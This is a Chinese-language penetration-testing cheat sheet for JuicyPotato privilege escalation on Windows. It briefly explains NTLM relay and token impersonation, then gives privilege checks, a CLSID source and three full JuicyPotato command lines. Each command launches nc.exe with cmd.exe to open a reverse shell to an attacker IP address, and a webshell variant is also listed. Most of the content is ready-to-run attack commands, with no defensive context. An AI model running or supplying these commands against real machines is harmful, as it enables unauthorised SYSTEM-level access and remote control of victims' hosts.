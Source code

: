 # Juicypotato 提权 (1)

利用<ms16-075>
原理：诱骗用户尝试使用NTLM对他的计算机进行身份验证，则他可以将该身份验证尝试中继到另一台计算机。NTLM的反射
[https://shenaniganslabs.io/2019/11/12/Ghost-Potato.html](https://shenaniganslabs.io/2019/11/12/Ghost-Potato.html)
理解：控制HTTP流量到SMB服务器中，做中间人攻击，劫持高权限的令牌后模拟令牌
过程</ms16-075>

1. 查看是否符合要求
whoami /all
whoami /priv
如果开启SeImpersonate权限，juicypotato的参数可以使用-t t
如果开启SeAssignPrimaryToken权限，juicypotato的参数可以使用-t u
均开启，可以选择-t * 如未开启则不可用
2. 选择对应的CLSID
[https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)
3. juicypotato.exe -l 1337 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}" -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\wwwroot\nc.exe -e cmd.exe 192.168.119.156 6666 " -t *

WebShell版烂土豆
JuicyPotato.exe -p whoami
[https://github.com/uknowsec/JuicyPotato](https://github.com/uknowsec/JuicyPotato)

```bash
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\drupal-7.54\TEMP\nc.exe -e cmd.exe 10.10.16.3 4444" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

```bash
cmd /c JuicyPotato64.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:\ProgramData\nc.exe -e cmd.exe 10.10.14.3 4444" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```